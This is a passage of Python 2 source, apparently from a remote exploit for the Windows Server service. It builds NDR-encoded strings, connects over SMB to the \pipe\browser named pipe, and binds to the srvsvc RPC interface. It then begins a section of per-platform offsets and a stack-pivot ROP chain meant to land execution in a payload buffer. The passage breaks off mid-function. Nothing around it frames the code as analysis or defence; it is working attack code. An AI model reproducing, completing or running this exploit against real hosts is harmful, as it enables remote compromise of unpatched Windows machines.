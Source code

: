 def ndr_uwstring(value):
    value = value + "\x00"
    rvalue = ndr_long(randint(1, 0xffffffff))
    length = ndr_long(len(value))
    utf16_value = value.encode("utf-16le")
    aligned_utf16_value = ndr_aling(utf16_value)
    
    return rvalue + length + ndr_long(0) + length + utf16_value + aligned_utf16_value


def ndr_wstring(value):
    value = value + "\x00"
    length = ndr_long(len(value))
    utf16_value = value.encode("utf-16le")
    aligned_utf16_value = ndr_aling(utf16_value)
    
    return length + ndr_long(0) + length + utf16_value + aligned_utf16_value


def ndr_wstring_prebuilt(value):
    if len(value) % 2 > 0:
        value = value + "\x00"
        
    length = len(value) / 2
    llength = ndr_long(length)
    return llength + ndr_long(0) + llength + value + ndr_aling(value)


def rand_text_alpha(length):
    return ''.join(choice(ascii_uppercase) for _ in range(length))


def to_unicode(value):
    return value.encode("utf-16le")


def connect(target):
    trans = transport.DCERPCTransportFactory('ncacn_np:%s[\\pipe\\browser]' % target)
    try:
        trans.connect()
        print "[*]\tConnected to %s " % target
    except:
        print "[*]\tConnection fault"
        exit()
    dce = trans.DCERPC_class(trans)
    dce.bind(uuid.uuidtup_to_bin(('4b324fc8-1670-01d3-1278-5a47bf6ee188', '3.0')))
    print "[*]\tBinding"
    return dce

# REAL Magic begins here!

def offsets(platform):
    """
    An efford to avoid magic numbers!
    """
    if platform in TARGETS:
        return TARGETS[platform]
    else:
        return False


def jmprop(cfg):
    """
    Size 60 stack pivots to jump to the payload
    ROP format will be:
    [ROP 4][junk 14][ROP 4][ROP 4][ROP 4][ROP 4][junk 2][ROP 4][junk 16][ROP 4]
    After all this jumping we will land 106 bytes passed the payload buffer
    """
    rop1 = cfg['stkpivot']
    offsets = cfg['stkpivotoffset']